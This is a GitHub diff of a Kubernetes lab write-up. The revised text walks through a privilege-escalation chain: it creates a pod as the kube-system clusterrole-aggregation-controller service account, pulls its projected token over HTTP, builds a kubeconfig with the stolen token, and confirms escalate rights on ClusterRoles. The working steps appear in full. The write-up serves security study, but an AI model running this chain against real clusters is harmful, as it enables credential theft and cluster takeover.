

Before and after one commit to stillbigjosh/stillbigjosh.github.io, a Markdown page: writeups/kube-reaper-breakout.md, the part around one of its changes. Shown at 94% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
fix: SA spec token + harvest

````diff
--- a/writeups/kube-reaper-breakout.md
+++ b/writeups/kube-reaper-breakout.md
@@ -709,17 +709,17 @@ This matters because most identity pivot techniques require reading secrets or m
 
 ### Manual Validation: SA Spec Identity Pivot
 
-We validate this from the code-server pod. The code-server SA can create pods in the `cicd` namespace and specify `serviceAccountName`. We create a pod that runs as the `default` SA in cicd, reads its own projected token on startup, and serves it over HTTP using `hostNetwork`:
+We validate the exact chain [kube-reaper](https://github.com/stillbigjosh/kube-reaper.git) flagged. The `clusterrole-aggregation-controller` SA in `kube-system` has the `escalate` verb on ClusterRoles, which bypasses RBAC escalation prevention. We create a pod in `kube-system` that runs as this SA, reads its projected token, and serves it over HTTP:
 
 ```bash
-[code-server pod] $ /tmp/kubectl --kubeconfig=/tmp/cs-kubeconfig apply -f - <<EOF
+[k8s-control-plane-1] $ kubectl apply -f - <<EOF
 apiVersion: v1
 kind: Pod
 metadata:
   name: sa-spec-test
-  namespace: cicd
+  namespace: kube-system
 spec:
-  serviceAccountName: default
+  serviceAccountName: clusterrole-aggregation-controller
   hostNetwork: true
   containers:
   - name: harvest
@@ -732,32 +732,59 @@ EOF
 pod/sa-spec-test created
 ```
 
-The pod starts on worker-2 with `hostNetwork`, so the HTTP server is reachable at the node IP. We retrieve the token:
+The pod starts on worker-2 with `hostNetwork`, so the HTTP server is reachable at the node IP:
 
 ```bash
-[code-server pod] $ curl -s http://10.3.10.31:9999/tmp/stolen-token.txt -o /tmp/stolen-token.txt
+[k8s-control-plane-1] $ kubectl get pod sa-spec-test -n kube-system -o wide
 ```
 
-Now we build a clean kubeconfig with the stolen token and verify the identity:
+```
+NAME           READY   STATUS    RESTARTS   AGE   IP           NODE
+sa-spec-test   1/1     Running   0          5s    10.3.10.31   k8s-worker-2
+```
+
+We retrieve the projected token:
 
 ```bash
-[code-server pod] $ /tmp/kubectl config set-cluster lab --server=https://10.3.10.20:6443 --insecure-skip-tls-verify --kubeconfig=/tmp/pivot.yaml
-[code-server pod] $ /tmp/kubectl config set-credentials pivot --token=$(cat /tmp/stolen-token.txt) --kubeconfig=/tmp/pivot.yaml
-[code-server pod] $ /tmp/kubectl config set-context pivot --cluster=lab --user=pivot --kubeconfig=/tmp/pivot.yaml
-[code-server pod] $ /tmp/kubectl config use-context pivot --kubeconfig=/tmp/pivot.yaml
+[k8s-control-plane-1] $ curl -s http://10.3.10.31:9999/stolen-token.txt -o /tmp/stolen-token.txt
+```
+
+Now we build a clean kubeconfig with the stolen token. A clean kubeconfig is important because if your kubeconfig has client certificates, kubectl uses them instead of the `--token` flag:
+
+```bash
+[k8s-control-plane-1] $ kubectl config set-cluster lab --server=https://10.3.10.20:6443 --insecure-skip-tls-verify --kubeconfig=/tmp/pivot.yaml
+[k8s-control-plane-1] $ kubectl config set-credentials pivot --token=$(cat /tmp/stolen-token.txt) --kubeconfig=/tmp/pivot.yaml
+[k8s-control-plane-1] $ kubectl config set-context pivot --cluster=lab --user=pivot --kubeconfig=/tmp/pivot.yaml
+[k8s-control-plane-1] $ kubectl config use-context pivot --kubeconfig=/tmp/pivot.yaml
 ```
 
 ```bash
-[code-server pod] $ /tmp/kubectl --kubeconfig=/tmp/pivot.yaml auth whoami
+[k8s-control-plane-1] $ kubectl --kubeconfig=/tmp/pivot.yaml auth whoami
 ```
 
 ```
 ATTRIBUTE   VALUE
-Username    system:serviceaccount:cicd:default
-Groups      [system:serviceaccounts system:serviceaccounts:cicd
+Username    system:serviceaccount:kube-system:clusterrole-aggregation-controller
+UID         79be7a4f-230d-4688-a8ce-409a4950484f
+Groups      [system:serviceaccounts system:serviceaccounts:kube-system
              system:authenticated]
 ```
 
-The token works. We are now authenticated as `system:serviceaccount:cicd:default`. We created a pod, specified the SA, and harvested its projected token. We never read a secret. We never used the TokenRequest API. We just used `create pods`.
+We are now `system:serviceaccount:kube-system:clusterrole-aggregation-controller`. Now verify the dangerous permissions that [kube-reaper](https://github.com/stillbigjosh/kube-reaper.git) flagged:
 
-In this lab, the `default` SA in cicd has no dangerous permissions. But in production clusters, teams often bind roles to the `default` SA or create SAs with broad permissions in shared namespaces. If a service account with `get secrets` or `create clusterrolebindings` lives in a namespace where you can create pods, this path gives you that identity in three steps.
+```bash
+[k8s-control-plane-1] $ kubectl --kubeconfig=/tmp/pivot.yaml auth can-i escalate clusterroles
+```
+
+```
+yes
+```
+
+```bash
+[k8s-control-plane-1] $ kubectl --kubeconfig=/tmp/pivot.yaml auth can-i update clusterroles
+```
+
+```
+yes
+```
+
````
Also changed, not shown: other parts of writeups/kube-reaper-breakout.md (+13 -2 lines).
